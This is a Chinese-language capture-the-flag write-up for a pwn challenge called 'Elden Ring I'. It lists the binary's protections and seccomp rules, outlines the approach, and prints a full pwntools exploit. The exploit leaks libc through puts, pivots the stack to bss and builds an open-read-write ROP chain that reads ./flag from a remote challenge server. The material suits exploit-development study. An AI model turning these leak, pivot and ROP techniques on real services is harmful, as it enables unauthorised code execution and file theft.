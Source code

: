 # Elden Ring I

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## seccomp rules

<img src="../assets/hgame1seccomp.png" height="60%" width="60%">

## 解题思路

~~先看6秒落叶~~

进入`vuln`函数栈溢出，但是只有5*8字节，同时禁用了execve，只能打orw，
但是orw又需要大量的空间，因此可以先后泄露libc，栈迁移，在bss上打orw就会方便的多，
还可以方便放置"./flag"

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./eldering')
        libc = ELF('/usr/lib/libc.so.6')
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('47.100.137.175', 32297)
        libc = ELF('./libc.so.6')
    elf = ELF('eldering')
    putsPlt = elf.plt['puts']
    putsGot = elf.got['puts']
    readPlt = elf.symbols['read']
    vulnAddr = elf.symbols['vuln']
    popRdiAddr = 0x4013e3
    bssHigh = 0x404800
    bssStore = 0x404a00
    gadgets = ROP(libc)

    # payload 1, leak libc addr
    sh.recvuntil(b'accord.\n\n')
    sh.sendline(b'0'*0x108 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(vulnAddr))
    print('payload 1 sent')

    putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')
    libcBase = putsGotAddr - libc.symbols['puts']
    openAddr = libcBase + libc.symbols['open']
    writeAddr = libcBase + libc.symbols['write']
    popRsiAddr = libcBase + gadgets.rsi.address
    popRdxAddr = libcBase + gadgets.rdx.address

    # payload 2, stack pivot to bss
    sh.recvuntil(b'accord.\n\n')
    leaveRet = 0x401290
    sh.sendline(b'0'*0x100 + p64(bssHigh) + p64(popRsiAddr) + p64(bssHigh) + p64(readPlt) + p64(leaveRet))
    print('payload 2 sent')
    sleep(0.5) # in case payload is concated

    # payload 3, do orw in bss
    sh.sendline(b'./flag\0\0' + p64(popRdiAddr) + p64(bssHigh) + p64(popRsiAddr) + p64(0) + p64(openAddr) +
                p64(popRdiAddr) + p64(3) + p64(popRsiAddr) + p64(bssStore) + p64(popRdxAddr) + p64(0x50) + p64(readPlt) +
                p64(popRdiAddr) + p64(bssStore) + p64(putsPlt))
    print('payload 3 sent')

    sh.interactive()
```
